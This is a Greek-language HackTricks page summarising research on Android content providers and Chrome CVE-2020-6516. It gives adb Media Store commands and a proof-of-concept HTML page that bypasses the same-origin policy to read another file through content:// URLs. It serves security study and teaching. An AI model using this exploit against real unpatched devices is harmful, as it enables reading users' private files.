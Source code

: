 {% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**Αυτή είναι μια περίληψη της ανάρτησης [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Καταγραφή Αρχείων στο Media Store
Για να καταγράψετε αρχεία που διαχειρίζεται το Media Store, μπορεί να χρησιμοποιηθεί η παρακάτω εντολή:
```bash
$ content query --uri content://media/external/file
```
Για μια πιο φιλική προς τον άνθρωπο έξοδο, εμφανίζοντας μόνο τον αναγνωριστικό και τη διαδρομή κάθε ευρετηριασμένου αρχείου:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
Οι παροχείς περιεχομένου είναι απομονωμένοι στον δικό τους ιδιωτικό χώρο ονομάτων. Η πρόσβαση σε έναν παροχέα απαιτεί το συγκεκριμένο `content://` URI. Πληροφορίες σχετικά με τις διαδρομές πρόσβασης σε έναν παροχέα μπορούν να αποκτηθούν από τα μανιφέστα εφαρμογών ή τον πηγαίο κώδικα του Android framework.

### Η Πρόσβαση του Chrome στους Παροχείς Περιεχομένου
Ο Chrome στο Android μπορεί να έχει πρόσβαση στους παροχείς περιεχομένου μέσω του σχήματος `content://`, επιτρέποντάς του να έχει πρόσβαση σε πόρους όπως φωτογραφίες ή έγγραφα που έχουν εξαχθεί από τρίτες εφαρμογές. Για να το εικονογραφήσουμε αυτό, ένα αρχείο μπορεί να εισαχθεί στο Media Store και στη συνέχεια να προσπελαστεί μέσω του Chrome:

Εισάγετε μια προσαρμοσμένη καταχώρηση στο Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
Ανακαλύψτε τον αναγνωριστικό του νεοεισαχθέντος αρχείου:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
Το αρχείο μπορεί στη συνέχεια να προβληθεί στο Chrome χρησιμοποιώντας μια διεύθυνση URL που κατασκευάζεται με τον αναγνωριστικό του αρχείου.

Για παράδειγμα, για να καταγράψετε αρχεία που σχετίζονται με μια συγκεκριμένη εφαρμογή:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

Η _Πολιτική Ίδιων Προελεύσεων_ (SOP) είναι ένα πρωτόκολλο ασφαλείας στους περιηγητές που περιορίζει τις ιστοσελίδες από το να αλληλεπιδρούν με πόρους από διαφορετικές προελεύσεις, εκτός αν επιτρέπεται ρητά από μια πολιτική Διαμοιρασμού Πόρων Διαφορετικών Προελεύσεων (CORS). Αυτή η πολιτική στοχεύει στην πρόληψη διαρροών πληροφοριών και επιθέσεων Cross-Site Request Forgery. Ο Chrome θεωρεί το `content://` ως τοπικό σχήμα, υπονοώντας αυστηρότερους κανόνες SOP, όπου κάθε τοπικό σχήμα URL αντιμετωπίζεται ως ξεχωριστή προέλευση.

Ωστόσο, το CVE-2020-6516 ήταν μια ευπάθεια στον Chrome που επέτρεπε την παράκαμψη των κανόνων SOP για πόρους που φορτώνονταν μέσω ενός URL `content://`. Στην ουσία, ο κώδικας JavaScript από ένα URL `content://` μπορούσε να έχει πρόσβαση σε άλλους πόρους που φορτώνονταν μέσω URL `content://`, γεγονός που ήταν σημαντική ανησυχία ασφαλείας, ειδικά σε συσκευές Android που εκτελούσαν εκδόσεις πριν από το Android 10, όπου δεν είχε εφαρμοστεί η περιορισμένη αποθήκευση.

Η απόδειξη της έννοιας παρακάτω δείχνει αυτή την ευπάθεια, όπου ένα έγγραφο HTML, αφού ανέβει κάτω από **/sdcard** και προστεθεί στο Media Store, χρησιμοποιεί το `XMLHttpRequest` στον JavaScript του για να έχει πρόσβαση και να εμφανίσει τα περιεχόμενα ενός άλλου αρχείου στο Media Store, παρακάμπτοντας τους κανόνες SOP.

Proof-of-Concept HTML:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
